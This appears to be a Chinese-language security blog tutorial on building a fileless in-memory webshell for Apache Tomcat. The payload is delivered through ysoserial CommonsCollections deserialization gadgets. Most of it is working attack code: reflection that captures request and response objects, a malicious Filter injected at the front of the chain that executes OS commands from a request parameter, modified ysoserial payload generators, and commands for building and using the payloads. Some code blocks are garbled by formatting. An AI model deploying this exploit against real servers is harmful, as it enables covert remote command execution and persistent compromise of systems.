




# 基于Tomcat的内存Webshell 无文件攻击技术

## 0x01 tomcat通用的获取request和response

首先我们看看一个普通http请求进来的时候，tomcat的部分执行栈：

```
at org.apache.catalina.core.ApplicationFilterChain.internalDoFilter(ApplicationFilterChain.java:193)
at org.apache.catalina.core.ApplicationFilterChain.doFilter(ApplicationFilterChain.java:166)
at org.apache.catalina.core.StandardWrapperValve.invoke(StandardWrapperValve.java:198)
at org.apache.catalina.core.StandardContextValve.invoke(StandardContextValve.java:96)
at org.apache.catalina.authenticator.AuthenticatorBase.invoke(AuthenticatorBase.java:493)
at org.apache.catalina.core.StandardHostValve.invoke(StandardHostValve.java:140)
at org.apache.catalina.valves.ErrorReportValve.invoke(ErrorReportValve.java:81)
at org.apache.catalina.core.StandardEngineValve.invoke(StandardEngineValve.java:87)
at org.apache.catalina.connector.CoyoteAdapter.service(CoyoteAdapter.java:342)
at org.apache.coyote.http11.Http11Processor.service(Http11Processor.java:800)
at org.apache.coyote.AbstractProcessorLight.process(AbstractProcessorLight.java:66)
at org.apache.coyote.AbstractProtocol$ConnectionHandler.process(AbstractProtocol.java:806)
at org.apache.tomcat.util.net.NioEndpoint$SocketProcessor.doRun(NioEndpoint.java:1498)
at org.apache.tomcat.util.net.SocketProcessorBase.run(SocketProcessorBase.java:49)
at java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1142)
at java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:617)
at org.apache.tomcat.util.threads.TaskThread$WrappingRunnable.run(TaskThread.java:61)
at java.lang.Thread.run(Thread.java:745) 
```

按照kingkk师傅的方法，利用的点是在 org.apache.catalina.core.ApplicationFilterChain.internalDoFilter：

```
if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
    lastServicedRequest.set(request);
    lastServicedResponse.set(response);
} 
```

其中，通过反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化，之后，每次请求进来，就能通过这两个ThreadLocal获取到相应的request和response了。但是，也存在一点小限制，在其set之前，看：

```
private void internalDoFilter(ServletRequest request,
                                  ServletResponse response)
    throws IOException, ServletException {

```
// Call the next filter if there is one
if (pos &lt; n) {
    ApplicationFilterConfig filterConfig = filters[pos++];
    try {
        Filter filter = filterConfig.getFilter();

        if (request.isAsyncSupported() &amp;&amp; "false".equalsIgnoreCase(
                filterConfig.getFilterDef().getAsyncSupported())) {
            request.setAttribute(Globals.ASYNC_SUPPORTED_ATTR, Boolean.FALSE);
        }
        if( Globals.IS_SECURITY_ENABLED ) {
            final ServletRequest req = request;
            final ServletResponse res = response;
            Principal principal =
                ((HttpServletRequest) req).getUserPrincipal();

            Object[] args = new Object[]{req, res, this};
            SecurityUtil.doAsPrivilege ("doFilter", filter, classType, args, principal);
        } else {
            filter.doFilter(request, response, this);
        }
    } catch (IOException | ServletException | RuntimeException e) {
        throw e;
    } catch (Throwable e) {
        e = ExceptionUtils.unwrapInvocationTargetException(e);
        ExceptionUtils.handleThrowable(e);
        throw new ServletException(sm.getString("filterChain.filter"), e);
    }
    return;
}

// We fell off the end of the chain -- call the servlet instance
try {
    if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
        lastServicedRequest.set(request);
        lastServicedResponse.set(response);
    }
    ...
} catch (IOException | ServletException | RuntimeException e) {
    throw e;
} catch (Throwable e) {
    e = ExceptionUtils.unwrapInvocationTargetException(e);
    ExceptionUtils.handleThrowable(e);
    throw new ServletException(sm.getString("filterChain.servlet"), e);
} finally {
    if (ApplicationDispatcher.WRAP_SAME_OBJECT) {
        lastServicedRequest.set(null);
        lastServicedResponse.set(null);
    }
} 
``` `}` 
```

先执行完所有的Filter了`filter.doFilter(request, response, this)`

因此，对于shiro的反序列化利用就没办法通过这种方式取到response回显了。

* * *

## 0x02 动态注册Filter

没错的，正如标题所说，通过动态注册一个Filter，并且把其放到最前面，这样，我们的Filter就能最先执行了，并且也成为了一个内存Webshell了。

要实现动态注册Filter，需要两个步骤。第一个步骤就是先达到能获取request和response，而第二个步骤是通过request或者response去动态注册Filter

#### 步骤一

首先，我们创建一个继承AbstractTranslet（因为需要携带恶意字节码到服务端加载执行）的TomcatEchoInject类，在其静态代码块中`反射修改ApplicationDispatcher.WRAP_SAME_OBJECT为true，并且对lastServicedRequest和lastServicedResponse这两个ThreadLocal进行初始化`

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**

*   @author threedr3am

    */

    public class TomcatEchoInject  extends AbstractTranslet {

static {

try {

/*刚开始反序列化后执行的逻辑*/

//修改 WRAP_SAME_OBJECT 值为 true

Class c = Class.forName(“org.apache.catalina.core.ApplicationDispatcher”);

java.lang.reflect.Field f = c.getDeclaredField(“WRAP_SAME_OBJECT”);

java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField(“modifiers”);

modifiersField.setAccessible(true);

modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);

f.setAccessible(true);

if (!f.getBoolean(null)) {

f.setBoolean(null, true);

}

```
 //初始化 lastServicedRequest
  c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
  f = c.getDeclaredField("lastServicedRequest");
  modifiersField = f.getClass().getDeclaredField("modifiers");
  modifiersField.setAccessible(true);
  modifiersField.setInt(f, f.getModifiers() &amp; ~java.lang.reflect.Modifier.FINAL);
  f.setAccessible(true);
  if (f.get(null) == null) {
    f.set(null, new ThreadLocal());
  }

  //初始化 lastServicedResponse
  f = c.getDeclaredField("lastServicedResponse");
  modifiersField = f.getClass().getDeclaredField("modifiers");
  modifiersField.setAccessible(true);
  modifiersField.setInt(f, f.getModifiers() &amp; ~java.lang.reflect.Modifier.FINAL);
  f.setAccessible(true);
  if (f.get(null) == null) {
    f.set(null, new ThreadLocal());
  }
} catch (Exception e) {
  e.printStackTrace();
} 
```

}

@Override

public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

}

@Override

public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)

throws TransletException { `}

}` 
```

接着，我们改造一下ysoserial中的Gadgets.createTemplatesImpl方法

```
public static Object createTemplatesImpl ( final String command) throws Exception {
    return createTemplatesImpl(command, null);
}

public static Object createTemplatesImpl ( final String command, final Class c ) throws Exception {

if ( Boolean.parseBoolean(System.getProperty(“properXalan”, “false”)) ) {

return createTemplatesImpl(

command, c,

Class.forName(“org.apache.xalan.xsltc.trax.TemplatesImpl”),

Class.forName(“org.apache.xalan.xsltc.runtime.AbstractTranslet”),

Class.forName(“org.apache.xalan.xsltc.trax.TransformerFactoryImpl”));

}

```
return createTemplatesImpl(command, c, TemplatesImpl.class, AbstractTranslet.class, TransformerFactoryImpl.class); 
```

}

public static <T> T createTemplatesImpl ( final String command, Class c, Class<T> tplClass, Class<?> abstTranslet, Class<?> transFactory )

throws Exception {

final T templates = tplClass.newInstance();

final byte[] classBytes;

if (c == null) {

// use template gadget class

ClassPool pool = ClassPool.getDefault();

pool.insertClassPath(new ClassClassPath(StubTransletPayload.class));

pool.insertClassPath(new ClassClassPath(abstTranslet));

final CtClass clazz = pool.get(StubTransletPayload.class.getName());

// run command in static initializer

// TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections

String cmd = “java.lang.Runtime.getRuntime().exec(”" +

command.replaceAll("\\", “\\\\”).replaceAll(""", “\”") +

“”);";

clazz.makeClassInitializer().insertAfter(cmd);

// sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)

clazz.setName(“ysoserial.Pwner” + System.nanoTime());

CtClass superC = pool.get(abstTranslet.getName());

clazz.setSuperclass(superC);

classBytes = clazz.toBytecode();

} else {

classBytes = ClassFiles.classAsBytes©;

}

```
// inject class bytes into instance
Reflections.setFieldValue(templates, "_bytecodes", new byte[][] {
    classBytes, ClassFiles.classAsBytes(Foo.class)
});

// required to make TemplatesImpl happy
Reflections.setFieldValue(templates, "_name", "Pwnr");
Reflections.setFieldValue(templates, "_tfactory", transFactory.newInstance());
return templates; 
``` `}` 
```

可以看到，第二个传入的Class参数，我们并没有用到javassist，而是直接转字节数组，然后放到TemplatesImpl实例的_bytecodes字段中了。

最后，回到ysoserial中有调用Gadgets.createTemplatesImpl的payload类中来，我这边对每一个都做了拷贝修改，例如CommonsCollections11，我拷贝其修改后的类为CommonsCollections11ForTomcatEchoInject，在调用`Gadgets.createTemplatesImpl(command[0];`的地方，改成了`final Object templates = Gadgets.createTemplatesImpl(null, TomcatEchoInject.class);`

并且，对ysoserial的main入口做一点小修改，因为原来的代码规定必须要有payload的入参，而我们这里不需要了

ysoserial.GeneratePayload#main：

```
if (args.length < 1) {
    printUsage();
    System.exit(USAGE_CODE);
} 
```

在ysoserial执行maven指令生成jar包

```
mvn clean -Dmaven.test.skip=true compile assembly:assembly 
```

这样，我们就能使用这个新的payload（CommonsCollections11ForTomcatEchoInject）了

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatEchoInject > ~/tmp/TomcatShellInject.ysoserial 
```

#### 步骤二

在使用步骤一生成的序列化数据进行反序列化攻击后，我们就能通过下面这段代码获取到request和response对象了

```
java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class.getDeclaredField("lastServicedRequest");
f.setAccessible(true);
ThreadLocal t = (ThreadLocal) f.get(null);
//不为空则意味着第一次反序列化的准备工作已成功
ServletRequest servletRequest = (ServletRequest) t.get() 
```

接着，我们要做的就是动态注册Filter到tomcat中，参考[《动态注册之Servlet+Filter+Listener》](https://www.jianshu.com/p/cbe1c3174d41)，可以看到，其中通过ServletContext对象（实际获取的是ApplicationContext，是ServletContext的实现，因为门面模式的使用，后面需要提取实际实现），实现了动态注册Filter

```
javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
filterRegistration.setInitParameter("encoding", "utf-8");
filterRegistration.setAsyncSupported(false);
filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"}); 
```

然而实际上并不管用，为什么呢？

```
private Dynamic addFilter(String filterName, String filterClass, Filter filter) throws IllegalStateException {
    if (filterName != null && !filterName.equals("")) {
      if (!this.context.getState().equals(LifecycleState.STARTING_PREP)) {
        throw new IllegalStateException(sm.getString("applicationContext.addFilter.ise", new Object[]{this.getContextPath()}));
      } else {
        FilterDef filterDef = this.context.findFilterDef(filterName);
        if (filterDef == null) {
          filterDef = new FilterDef();
          filterDef.setFilterName(filterName);
          this.context.addFilterDef(filterDef);
        } else if (filterDef.getFilterName() != null && filterDef.getFilterClass() != null) {
          return null;
        }

```
 if (filter == null) {
      filterDef.setFilterClass(filterClass);
    } else {
      filterDef.setFilterClass(filter.getClass().getName());
      filterDef.setFilter(filter);
    }

    return new ApplicationFilterRegistration(filterDef, this.context);
  }
} else {
  throw new IllegalArgumentException(sm.getString("applicationContext.invalidFilterName", new Object[]{filterName}));
} 
``` `}` 
```

因为`this.context.getState()`在运行时返回的state已经是`LifecycleState.STARTED`了，所以直接就抛异常了，filter根本就添加不进去。

不过问题不大，因为`this.context.getState()`获取的是ServletContext实现对象的context字段，从其中获取出state，那么，我们在其添加filter前，通过反射设置成`LifecycleState.STARTING_PREP`，在其顺利添加完成后，再把其恢复成`LifecycleState.STARTE`，这里必须要恢复，要不然会造成服务不可用。

其实上面的反射设置state值，也可以不做，因为我们看代码中，只是执行了`this.context.addFilterDef(filterDef)`，我们完全也可以通过反射context这个字段自行添加filterDef。

在实际执行栈中，可以看到，实际filter的创建是在org.apache.catalina.core.StandardWrapperValve#invoke执行`ApplicationFilterChain filterChain = ApplicationFilterFactory.createFilterChain(request, wrapper, servlet);`的地方

跟进其实现方法，忽略不重要的代码：

```
...
StandardContext context = (StandardContext) wrapper.getParent();
FilterMap filterMaps[] = context.findFilterMaps();
...
// Add the relevant path-mapped filters to this filter chain
for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        continue;
    }
    if (!matchFiltersURL(filterMaps[i], requestPath))
        continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
        // FIXME - log configuration problem
        continue;
    }
    filterChain.addFilter(filterConfig);
} 
```

可以看到，从context提取了FilterMap数组，并且遍历添加到filterChain，最终生效，但是这里有两个问题：

1.  我们最早创建的filter被封装成FilterDef添加到了context的filterDefs中，但是filterMaps中并不存在
2.  跟上述一样的问题，也不存在filterConfigs中（`context.findFilterConfig`是从context的filterConfigs中获取）

这两个问题，也比较简单，第一个问题，其实在下面代码执行`filterRegistration.addMappingForUrlPatterns`的时候已经添加进去了

```
javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext.addFilter("threedr3am", threedr3am);
filterRegistration.setInitParameter("encoding", "utf-8");
filterRegistration.setAsyncSupported(false);
filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false, new String[]{"/*"});
public void addMappingForUrlPatterns(EnumSet<DispatcherType> dispatcherTypes, boolean isMatchAfter, String... urlPatterns) {
    FilterMap filterMap = new FilterMap();
    filterMap.setFilterName(this.filterDef.getFilterName());
    if (dispatcherTypes != null) {
      Iterator var5 = dispatcherTypes.iterator();

```
 while(var5.hasNext()) {
    DispatcherType dispatcherType = (DispatcherType)var5.next();
    filterMap.setDispatcher(dispatcherType.name());
  }
}

if (urlPatterns != null) {
  String[] var9 = urlPatterns;
  int var10 = urlPatterns.length;

  for(int var7 = 0; var7 &lt; var10; ++var7) {
    String urlPattern = var9[var7];
    filterMap.addURLPattern(urlPattern);
  }

  if (isMatchAfter) {
    this.context.addFilterMap(filterMap);
  } else {
    this.context.addFilterMapBefore(filterMap);
  }
} 
``` `}` 
```

而第二个问题，既然没有，我们就反射加进去就行了，不过且先看看StandardContext，它有一个方法`filterStart`

```
public boolean filterStart() {
    if (this.getLogger().isDebugEnabled()) {
      this.getLogger().debug("Starting filters");
    }

```
boolean ok = true;
synchronized(this.filterConfigs) {
  this.filterConfigs.clear();
  Iterator var3 = this.filterDefs.entrySet().iterator();

  while(var3.hasNext()) {
    Entry&lt;String, FilterDef&gt; entry = (Entry)var3.next();
    String name = (String)entry.getKey();
    if (this.getLogger().isDebugEnabled()) {
      this.getLogger().debug(" Starting filter '" + name + "'");
    }

    try {
      ApplicationFilterConfig filterConfig = new ApplicationFilterConfig(this, (FilterDef)entry.getValue());
      this.filterConfigs.put(name, filterConfig);
    } catch (Throwable var8) {
      Throwable t = ExceptionUtils.unwrapInvocationTargetException(var8);
      ExceptionUtils.handleThrowable(t);
      this.getLogger().error(sm.getString("standardContext.filterStart", new Object[]{name}), t);
      ok = false;
    }
  }

  return ok;
} 
``` `}` 
```

没错，它遍历了filterDefs，一个个实例化成ApplicationFilterConfig添加到filterConfigs了。

这两个问题解决了，是不是就完成了呢，其实还没有，还差一个优化的地方，因为我们想要把filter放到最前面，在所有filter前执行，从而解决shiro漏洞的问题。

也简单，我们看回`org.apache.catalina.core.ApplicationFilterFactory#createFilterChain`的代码：

```
// Add the relevant path-mapped filters to this filter chain
for (int i = 0; i < filterMaps.length; i++) {
    if (!matchDispatcher(filterMaps[i] ,dispatcher)) {
        continue;
    }
    if (!matchFiltersURL(filterMaps[i], requestPath))
        continue;
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig)
        context.findFilterConfig(filterMaps[i].getFilterName());
    if (filterConfig == null) {
        // FIXME - log configuration problem
        continue;
    }
} 
```

创建的顺序是根据filterMaps的顺序来的，那么我们就有必要去修改我们添加的filter顺序到第一位了，最后，整个第二步骤的代码如下：

```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
import javax.servlet.Filter;
import javax.servlet.FilterChain;
import javax.servlet.FilterConfig;
import javax.servlet.ServletException;
import javax.servlet.ServletRequest;
import javax.servlet.ServletResponse;

/** 
```

*   `@author threedr3am
    */
    public class TomcatShellInject extends AbstractTranslet implements Filter {

    static {
    try {
    /*shell注入，前提需要能拿到request、response等*/
    java.lang.reflect.Field f = org.apache.catalina.core.ApplicationFilterChain.class
    .getDeclaredField(“lastServicedRequest”);
    f.setAccessible(true);
    ThreadLocal t = (ThreadLocal) f.get(null);
    ServletRequest servletRequest = null;
    //不为空则意味着第一次反序列化的准备工作已成功
    if (t != null && t.get() != null) {
    servletRequest = (ServletRequest) t.get();
    }
    if (servletRequest != null) {
    javax.servlet.ServletContext servletContext = servletRequest.getServletContext();
    org.apache.catalina.core.StandardContext standardContext = null;
    //判断是否已有该名字的filter，有则不再添加
    if (servletContext.getFilterRegistration(“threedr3am”) == null) {
    //遍历出标准上下文对象
    for (; standardContext == null; ) {
    java.lang.reflect.Field contextField = servletContext.getClass().getDeclaredField(“context”);
    contextField.setAccessible(true);
    Object o = contextField.get(servletContext);
    if (o instanceof javax.servlet.ServletContext) {
    servletContext = (javax.servlet.ServletContext) o;
    } else if (o instanceof org.apache.catalina.core.StandardContext) {
    standardContext = (org.apache.catalina.core.StandardContext) o;
    }
    }
    if (standardContext != null) {
    //修改状态，要不然添加不了
    java.lang.reflect.Field stateField = org.apache.catalina.util.LifecycleBase.class
    .getDeclaredField(“state”);
    stateField.setAccessible(true);
    stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTING_PREP);
    //创建一个自定义的Filter马
    Filter threedr3am = new TomcatShellInject();
    //添加filter马
    javax.servlet.FilterRegistration.Dynamic filterRegistration = servletContext
    .addFilter(“threedr3am”, threedr3am);
    filterRegistration.setInitParameter(“encoding”, “utf-8”);
    filterRegistration.setAsyncSupported(false);
    filterRegistration
    .addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,
    new String[]{"/*"});
    //状态恢复，要不然服务不可用
    if (stateField != null) {
    stateField.set(standardContext, org.apache.catalina.LifecycleState.STARTED);
    }

    ```
     if (standardContext != null) {
                         //生效filter
                         java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                             .getMethod("filterStart");
                         filterStartMethod.setAccessible(true);
                         filterStartMethod.invoke(standardContext, null);

                         //把filter插到第一位
                         org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                             .findFilterMaps();
                         for (int i = 0; i &lt; filterMaps.length; i++) {
                             if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                 org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                 filterMaps[i] = filterMaps[0];
                                 filterMaps[0] = filterMap;
                                 break;
                             }
                         }
                     }
                 }
             }
         }
     } catch (Exception e) {
         e.printStackTrace();
     } 
    ```

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
    throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
    FilterChain filterChain) throws IOException, ServletException {
    System.out.println(
    “TomcatShellInject doFilter…”);
    String cmd;
    if ((cmd = servletRequest.getParameter(“threedr3am”)) != null) {
    Process process = Runtime.getRuntime().exec(cmd);
    java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
    new java.io.InputStreamReader(process.getInputStream()));
    StringBuilder stringBuilder = new StringBuilder();
    String line;
    while ((line = bufferedReader.readLine()) != null) {
    stringBuilder.append(line + ‘\n’);
    }
    servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
    servletResponse.getOutputStream().flush();
    servletResponse.getOutputStream().close();
    return;
    }
    filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {` 

    `}
    }` 

和第一个步骤创建的TomcatEchoInject不一样，这里我们不但基础了AbstractTranslet，还实现了Filter创建一个我们自定义的内存Webshell

最后，我们也按照第一个步骤那样，创建一个ysoserial的`CommonsCollections11`类的拷贝，名叫`CommonsCollections11ForTomcatShellInject`，并把其`Gadgets.createTemplatesImpl(command[0])`的调用改成`Gadgets.createTemplatesImpl(null, TomcatShellInject.class)`，这样，我们的Webshell payload就完成了。

通过执行maven打包

```
mvn clean -Dmaven.test.skip=true compile assembly:assembly 
```

然后执行生成的jar

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections11ForTomcatShellInject > ~/tmp/TomcatEchoInject.ysoserial 
```

就生成了CommonsCollections11ForTomcatShellInject的payload了

## 0x03 测试

上一节中，我们生成了两个payload，接下来，我们启动一个具有`commons-collections:commons-collections:3.2.1`依赖的服务端，并且存在反序列化的接口。

然后我们把步骤一和步骤二生成的payload依次打过去





可以依次看到，两个步骤都返回500异常，相关信息证明已经执行反序列化成功了，接下来我们试试这个内存Webshell





完美，具体ysoserial改造后的代码，我已经上传到github，有兴趣可以看看 [ianxtianxt/ysoserial](https://github.com/ianxtianxt/ysoserial)

### 使用方法

> Tomcat通杀回显-内存webshell
> 
> 例：
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatEchoInject > echo.payload 
> ```
> 
> 然后使用上述得到的恶意序列化数据echo.payload攻击一遍，然后再继续下面的操作
> 
> ```
> java -jar ysoserial-0.0.6-SNAPSHOT-all.jar
> CommonsCollections11ForTomcatShellInject > shell.payload 
> ```
> 
> 使用恶意序列化数据shell.payload再攻击一遍，可以得到一个内存级的webshell，任意路径，参数threedram为命令
> 
> ```
> curl http://127.0.0.1:8080/aaa\?threedr3am\=ls%20/ 
> ```

## 参考链接

> https://xz.aliyun.com/t/7388#toc-3